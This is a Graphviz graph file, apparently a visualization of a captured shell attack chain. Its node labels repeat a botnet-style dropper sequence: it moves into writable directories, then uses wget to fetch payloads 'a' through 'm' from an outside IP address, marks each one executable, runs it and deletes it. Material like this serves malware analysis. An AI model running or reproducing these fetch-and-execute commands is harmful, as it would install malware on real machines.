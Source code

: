 digraph {
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 10 [label="||,"];
10 [label="wget http://103.210.210.201/a "];
10 -> 12 [label=";,"];
12 [label="chmod +x a "];
12 -> 14 [label=";,"];
14 [label="./a "];
14 -> 16 [label=";,"];
16 [label="rm -rf a "];
16 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 28 [label="||,"];
28 [label="wget http://103.210.210.201/b "];
28 -> 30 [label=";,"];
30 [label="chmod +x b "];
30 -> 32 [label=";,"];
32 [label="./b "];
32 -> 34 [label=";,"];
34 [label="rm -rf b "];
34 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 46 [label="||,"];
46 [label="wget http://103.210.210.201/c "];
46 -> 48 [label=";,"];
48 [label="chmod +x c "];
48 -> 50 [label=";,"];
50 [label="./c "];
50 -> 52 [label=";,"];
52 [label="rm -rf c "];
52 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 64 [label="||,"];
64 [label="wget http://103.210.210.201/d "];
64 -> 66 [label=";,"];
66 [label="chmod +x d "];
66 -> 68 [label=";,"];
68 [label="./d "];
68 -> 70 [label=";,"];
70 [label="rm -rf d "];
70 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 82 [label="||,"];
82 [label="wget http://103.210.210.201/e "];
82 -> 84 [label=";,"];
84 [label="chmod +x e "];
84 -> 86 [label=";,"];
86 [label="./e "];
86 -> 88 [label=";,"];
88 [label="rm -rf e "];
88 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 100 [label="||,"];
100 [label="wget http://103.210.210.201/f "];
100 -> 102 [label=";,"];
102 [label="chmod +x f "];
102 -> 104 [label=";,"];
104 [label="./f "];
104 -> 106 [label=";,"];
106 [label="rm -rf f "];
106 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 118 [label="||,"];
118 [label="wget http://103.210.210.201/g "];
118 -> 120 [label=";,"];
120 [label="chmod +x g "];
120 -> 122 [label=";,"];
122 [label="./g "];
122 -> 124 [label=";,"];
124 [label="rm -rf g "];
124 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 136 [label="||,"];
136 [label="wget http://103.210.210.201/h "];
136 -> 138 [label=";,"];
138 [label="chmod +x h "];
138 -> 140 [label=";,"];
140 [label="./h "];
140 -> 142 [label=";,"];
142 [label="rm -rf h "];
142 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 154 [label="||,"];
154 [label="wget http://103.210.210.201/i "];
154 -> 156 [label=";,"];
156 [label="chmod +x i "];
156 -> 158 [label=";,"];
158 [label="./i "];
158 -> 160 [label=";,"];
160 [label="rm -rf i "];
160 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 172 [label="||,"];
172 [label="wget http://103.210.210.201/j "];
172 -> 174 [label=";,"];
174 [label="chmod +x j "];
174 -> 176 [label=";,"];
176 [label="./j "];
176 -> 178 [label=";,"];
178 [label="rm -rf j "];
178 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 190 [label="||,"];
190 [label="wget http://103.210.210.201/k "];
190 -> 192 [label=";,"];
192 [label="chmod +x k "];
192 -> 194 [label=";,"];
194 [label="./k "];
194 -> 196 [label=";,"];
196 [label="rm -rf k "];
196 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 208 [label="||,"];
208 [label="wget http://103.210.210.201/l "];
208 -> 210 [label=";,"];
210 [label="chmod +x l "];
210 -> 212 [label=";,"];
212 [label="./l "];
212 -> 214 [label=";,"];
214 [label="rm -rf l "];
214 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 226 [label="||,"];
226 [label="wget http://103.210.210.201/m "];
226 -> 228 [label=";,"];
228 [label="chmod +x m "];
228 -> 230 [label=";,"];
230 [label="./m "];
230 -> 231 [label=";,"];
}
